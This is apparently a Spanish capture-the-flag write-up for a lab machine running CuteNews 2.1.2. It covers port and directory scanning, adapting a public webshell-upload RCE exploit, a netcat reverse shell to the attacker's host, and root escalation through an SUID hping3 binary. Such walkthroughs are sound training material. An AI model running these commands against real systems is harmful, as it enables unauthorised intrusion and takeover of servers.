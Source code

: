 Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 192.168.196.128 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![1](Images/1.png)


Ojo, puertos interesantes, especialmente ese 88. Vamos a escanear qué servicios y versiones están corriendo para estos puertos.

``nmap 192.168.196.128 -sCV -p -oN target``

![2](Images/2.png)

Vale, falsa alarma, ese p88 no es Kerberos. Tenemos SSH, http y pop3 (con y sin SSL).

Vamos a comenzar echando un vistazo a nivel de navegador. No se encuentra nada interesante, por lo que vamos a hacer fuerza bruta de directorios.

``feroxbuster -u http://192.168.196.128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 150 -x php,html,sh,txt, -C 400,404,500,503 -o scan80.txt``

![3](Images/3.png)

Muy interesante. Se encuentra un index.php. Si indagamos un poco, vemos:

![4](Images/4.png)

Ojo, tenemos tecnología y versión: CuteNews 2.1.2. Además, coincide parcialmente con el nombre de la máquina, por lo que parece que vamos bien.

Si buscamos exploits públicos para esta tecnología y versión, vemos:

``searchsploit cute news 2.1.2``

![5](Images/5.png)

Ojo, RCE para esta tecnología y versión. 

https://www.exploit-db.com/exploits/48800

Si echamos un vistazo al código del exploit, parece que hace básicamente lo siguiente: se registra como un usuario nuevo, sube un avatar que en realidad es una webshell en php, y después permite ejecutar comandos desde la terminal enviándolos por POST.

Vamos a probar. Nos lo traemos a nuestro directorio de trabajo.

``searchsploit -m 48800.py``

![6](Images/6.png)

Le damos permisos de ejecución:

``chmod +x 48800.py``

![7](Images/7.png)

Antes de ejecutarlo, tenemos que fijarnos que hay rutas en el código que puede que no existan a nivel del servidor:

- IP/CuteNews/cdata/users/ no existe

![8](Images/8.png)

- Pero IP/cdata/users, sí:

![9](Images/9.png)

Y lo mismo para todas aquellas rutas que partan de IP/CuteNews (como /uploads o /index.php), por lo que modificamos el código y lo adaptamos a nuestro escenario. Es decir, borramos la parte "CuteNews" de la url, puesto que el servidor web, en este caso, no contempla esa ruta.

``nano 48800.py``

![10](Images/10.png)

![11](Images/11.png)

![12](Images/12.png)

![13](Images/13.png)

Una vez lo tenemos preparado, ejecutamos:

``python3 48800.py``

-> Introducimos la URL

![14](Images/14.png)

Y nos permite ejecutar comandos de forma remota:

![15](Images/15.png)

Para mayor estabilidad, vamos a mandarnos una revshell.

- Primero nos ponemos en escucha desde máquina atacante:
  
``nc -nlvp 4444``

- Nos mandamos reverse shell al puerto previamente levantado:

``nc 192.168.45.210 4444 -e /bin/bash``

![16](Images/16.png)

- Si revisamos el listener:

![17](Images/17.png)

Estamos dentro como www-data.

Hacemos un tratamiento de la TTY y recogemos la flag de user en /var/www:

``whoami && ip addr && cat local.txt``

![18](Images/18.png)


# PRIVESC

Se prueban diferentes escaladas básicas de Linux, pero al observar los permisos SUID en binarios, encontramos:

![19](Images/19.png)

No es común que el binario hping3 tenga permisos SUID. Vamos a echar un vistazo a GTFObins:

https://gtfobins.github.io/gtfobins/hping3/#suid

![20](Images/20.png)


``hping3``

``/bin/sh -p``

![21](Images/21.png)

Hemos escalado correctamente a root.

En /root encontramos la flag de root.

``whoami && ip addr && cat proof.txt``
![22](Images/22.png)
